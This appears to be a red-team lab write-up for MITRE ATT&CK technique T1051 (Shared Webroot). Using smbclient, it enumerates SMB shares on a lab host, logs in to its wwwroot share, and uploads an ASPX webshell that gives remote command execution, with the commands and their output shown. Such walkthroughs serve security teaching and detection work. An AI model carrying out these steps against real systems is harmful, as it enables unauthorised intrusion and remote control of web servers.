 ```yaml
---
description: Lateral Movement
---
```


# T1051: Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:

{% code title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    CertEnroll      Disk      Active Directory Certificate Services share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    SYSVOL          Disk      Logon server share 
    temp            Disk      
    tools           Disk      
    transcripts     Disk      
    wwwroot         Disk
```
{% endcode %}

Logging in to the `wwwroot` share:

{% code title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode %}

Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

        6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:

![](../../.gitbook/assets/webroot-ownage.png)

Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:

![](../../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="../privilege-escalation/t1108-redundant-access.md" %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1051" caption="" %}

